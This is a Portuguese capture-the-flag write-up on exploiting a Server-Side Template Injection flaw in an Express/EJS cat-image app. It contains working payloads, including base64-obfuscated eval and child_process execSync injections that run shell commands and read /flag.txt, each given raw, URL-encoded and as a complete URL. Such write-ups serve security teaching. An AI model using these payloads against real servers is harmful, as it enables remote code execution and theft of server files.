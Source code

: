 # **WEB**

**Autor**: Hakal  
**Desafio**: Funny Cats  
**Nível**: Médio  

---

## **1. Introdução**

Este documento descreve uma exploração bem-sucedida de uma vulnerabilidade Server-Side Template Injection (SSTI) em um servidor Express, visando acessar a flag escondida no arquivo `/flag.txt`. A vulnerabilidade ocorre devido ao processamento inadequado de entradas de usuários, permitindo a execução de código arbitrário no servidor.

---

## **2. Análise do Código Vulnerável**

O servidor em questão exibe imagens de gatos e permite que os usuários instituam um nome de gato por meio de uma URL, como no exemplo: `https://funny-cats.chapeudepalhahacker.club/gato?name=Alfredo`. O site não realiza a devida sanitização da entrada do usuário, o que possibilita a exploração mediante injeções de template.

A falta de sanitização adequada da entrada `name` possibilita a exploração via injeção de template. Essa vulnerabilidade permite que atacantes executem código no lado servidor, podendo ler arquivos sensíveis ou executar comandos arbitrários.

---

## **3. Exploração da SSTI**

A exploração foi realizada em três etapas principais: injeção de código básico, identificação do sistema operacional do servidor e, finalmente, leitura do conteúdo do arquivo `/flag.txt`.

### **Passo 1: Demonstração de Injeção de Template Básica**

Inicialmente, testamos a injeção com uma expressão simples para avaliar o comportamento do servidor.

**Payload:**

```plaintext
<%= 7*7 %>
```

**URL Encoded:**

A codificação em URL do payload foi realizada para evitar problemas com caracteres especiais e filtros de segurança.

```plaintext
%3C%25%3D%207*7%20%25%3E
```

**URL Completa:**

A URL completa com a injeção foi construída da seguinte forma:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%207*7%20%25%3E
```

**Resultado:**

O servidor processou a injeção e retornou o resultado da multiplicação, confirmando a execução de código no lado servidor.

![Resultado da Injeção Básica](1.png)

### **Passo 2: Identificação do Sistema Operacional**

Com a vulnerabilidade confirmada, o próximo passo foi coletar informações sobre o servidor. Utiliza-se o método `eval` e a função `os.platform()` para identificar o sistema operacional:

**Payload:**

```plaintext
<%= '- Sistema Operacional: ' %><%=eval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk=', 'base64').toString())%><%= '' %>
```

**URL Encoded:**

A codificação do payload para URL ficou assim:

```plaintext
%3C%25%3D%20'- Sistema Operacional: '%20%25%3E%3C%25%3Deval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk%3D',%20'base64').toString())%25%3E%3C%25%3D%20''%20%25%3E
```

**URL Completa:**

A URL completa com o payload para a identificação do sistema operacional foi:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%20'- Sistema Operacional: '%20%25%3E%3C%25%3Deval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk%3D',%20'base64').toString())%25%3E%3C%25%3D%20''%20%25%3E
```

**Resultado:**

O servidor retornou à plataforma do sistema operacional, confirmando a execução do comando.

![Identificação do Sistema Operacional](2.png)

### **Passo 3: Leitura do Conteúdo de /flag.txt**

A etapa final consistiu em acessar o arquivo `/flag.txt` do servidor. Utilizamos o módulo `child_process` do Node.js para executar o comando `cat /flag.txt` e obter o conteúdo do arquivo. O comando foi codificado em base64 para evitar interferências.

**Payload:**

```plaintext
<%= '- ' %><%= global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo=', 'base64').toString()) %><%= '' %>
```

**URL Encoded:**

O payload foi novamente URL-encoded para garantir o correto processamento no servidor:

```plaintext
%3C%25%3D%20'- '%20%25%3E%3C%25%3D%20global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo%3D',%20'base64').toString())%20%25%3E%3C%25%3D%20''%20%25%3E
```

**URL Completa:**

A URL com a injeção para leitura do conteúdo do arquivo `/flag.txt` foi:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%20'- '%20%25%3E%3C%25%3D%20global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo%3D',%20'base64').toString())%20%25%3E%3C%25%3D%20''%20%25%3E
```

**Resultado:**

O servidor retornou o conteúdo do arquivo `/flag.txt`, revelando a flag.

![Leitura do Conteúdo de /flag.txt](3.png)

---

## **4. Conclusão**

A exploração da vulnerabilidade SSTI no servidor Express foi concluída com sucesso. Através da injeção de código malicioso, foi possível:

1. Verificar o processamento inadequado de entradas do usuário pelo servidor.
2. Identificar o sistema operacional do servidor.
3. Executar comandos arbitrários para acessar o conteúdo do arquivo `/flag.txt` e obter a flag.

Essa exploração destaca a importância de validar e sanitizar corretamente as entradas dos usuários para prevenir vulnerabilidades SSTI em aplicações web.

---
